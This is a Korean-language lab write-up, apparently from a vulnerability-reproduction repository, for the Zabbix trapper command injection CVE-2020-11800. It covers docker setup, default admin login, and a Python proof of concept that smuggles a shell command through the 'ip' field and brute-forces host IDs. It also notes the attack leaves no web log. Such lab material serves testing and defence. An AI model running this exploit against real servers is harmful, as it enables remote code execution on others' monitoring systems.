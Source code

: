 # Zabbix 서버 트랩퍼 명령 주입 취약점(CVE-2020-11800)

**Contributors**

-   [박철준(@cheoljun99)]

## 요약
Zabbix는 분산 시스템 모니터링 및 네트워크 모니터링 기능을 제공하는 WEB 인터페이스 기반의 엔터프라이즈급 오픈 소스 솔루션입니다.

CVE-2017-2824 Zabbix 버전 2.4.x의 트랩퍼 명령 기능에는 원격 코드 실행 취약점이 있습니다.특정 데이터 패킷이 명령 주입을 유발한 다음 원격으로 코드를 실행할 수 있습니다. 공격자는 취약점을 트리거하기 위해 Zabbix 프록시에서 요청을 시작할 수 있습니다.
CVE-2020-11800은 CVE-2017-2824에 대한 패치 우회입니다. 서버 측 트랩퍼 명령 기능에 코드 실행 취약점이 있으며, 복구 패치가 불완전하여 IPv6를 사용하여 임의 명령을 우회하고 주입할 수 있습니다.

참고 링크：

- https://xz.aliyun.com/t/8991

## 환경설정

다음 명령을 실행하여 웹 측, 서버 측, 1 에이전트 및 Mysql 데이터베이스를 포함한 전체 Zabbix 환경을 시작하십시오.

```
docker compose up -d
```

명령 실행 후 `docker compose ps`를 실행하여 모든 컨테이너가 성공적으로 시작되었는지 확인하고, 그렇지 않은 경우 `docker compose up -d`를 다시 실행하시오.

해당 취약점을 악용하기 위해서는 서버에서 자동 등록 기능을 활성화해야 하며, 활성화 방법은 아래에 제시합니다.

![](0.png)

로그인하려면 ID: admin, PW: zabbix 를 입력하세요.

![](1.png)
Configuration 탭에서 하위 탭인 Actions를 클릭하고 이벤트 소스를 Auto registration으로 조정한 다음 create를 하여 Add host 오퍼레이션을 만듭니다.

## CVE-2017-2824에서 취약점 패치한 후 취약점 재발(우회)

CVE-2017-2824와 CVE-2020-11800은 모두 동일한 취약점이므로 전자는 ipv4 splicing 명령을 사용하여 주입하고 후자는 ipv6 splicing 명령을 사용하여 주입하는 원리는 동일합니다.：

```python
import sys
import socket
import json
import sys
def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data
target = sys.argv[1]
#print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))
# CVE-2020-11800은 아래를 사용하십시오
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/success2"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)

```

다음 결과가 표시되면 명령이 성공적으로 실행된 것입니다.

![](2.png)
poc 파일을 연속하여 실행하면 해당 랜덤한 확률로 해당 빨간 네모칸 과정이 실행됩니다.

![](3.png)

이후 서버 bash를 통해 tmp 폴더를 확인하면 success2 파일이 생성됨을 알 수 있습니다.

![](4.png)
성공적으로 실행된 명령은 콘솔에도 기록됩니다.

![](5.png)
해당 취약점은 소켓을 통해 생성되며 http 프로토콜을 사용하지 않으므로 웹 로그에 기록이 남지 않습니다.
